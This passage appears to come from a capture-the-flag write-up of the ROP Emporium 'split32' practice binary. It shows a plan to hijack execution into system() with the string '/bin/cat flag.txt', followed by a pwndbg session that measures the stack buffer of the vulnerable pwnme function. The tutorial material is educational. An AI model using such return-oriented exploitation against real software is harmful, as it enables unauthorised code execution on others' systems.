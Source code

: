 Now we are going to change our code execution like,

```c
   push   0x0804a030 #"/bin/cat flag.txt"
   call   0x80483e0 <system@plt>
```

Before that lets find the buffer space,

```c
pwndbg> b *0x080485f6
Breakpoint 1 at 0x80485f6
pwndbg> r
Starting program: /home/ra/split32/split32
split by ROP Emporium
x86

Contriving a reason to ask user for data...
> AAAABBBBCCCCDDDD

Breakpoint 1, 0x080485f6 in pwnme ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────
 EAX  0x11
 EBX  0x0
 ECX  0xffffd1d0 ◂— 'AAAABBBBCCCCDDDD\n'
 EDX  0x60
 EDI  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 ESI  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 EBP  0xffffd1f8 —▸ 0xffffd208 ◂— 0x0
 ESP  0xffffd1c0 ◂— 0x0
 EIP  0x80485f6 (pwnme+73) ◂— add    esp, 0x10
─────────────────────────────────────────────[ DISASM ]─────────────────────────────────────────────
 ► 0x80485f6 <pwnme+73>            add    esp, 0x10
   0x80485f9 <pwnme+76>            sub    esp, 0xc
   0x80485fc <pwnme+79>            push   0x8048703
   0x8048601 <pwnme+84>            call   puts@plt <puts@plt>

   0x8048606 <pwnme+89>            add    esp, 0x10
   0x8048609 <pwnme+92>            nop
   0x804860a <pwnme+93>            leave
   0x804860b <pwnme+94>            ret

   0x804860c <usefulFunction>      push   ebp
   0x804860d <usefulFunction+1>    mov    ebp, esp
   0x804860f <usefulFunction+3>    sub    esp, 8
─────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────
00:0000│ esp 0xffffd1c0 ◂— 0x0
01:0004│     0xffffd1c4 —▸ 0xffffd1d0 ◂— 'AAAABBBBCCCCDDDD\n'
02:0008│     0xffffd1c8 ◂— 0x60 /* '`' */
03:000c│     0xffffd1cc ◂— 0x4
04:0010│ ecx 0xffffd1d0 ◂— 'AAAABBBBCCCCDDDD\n'
05:0014│     0xffffd1d4 ◂— 'BBBBCCCCDDDD\n'
06:0018│     0xffffd1d8 ◂— 'CCCCDDDD\n'
07:001c│     0xffffd1dc ◂— 'DDDD\n'
───────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0 0x80485f6 pwnme+73
   f 1 0x8048590 main+74
   f 2 0xf7de0ee5 __libc_start_main+245
────────────────────────────────────────────────────────────────────────────────────────────────────
```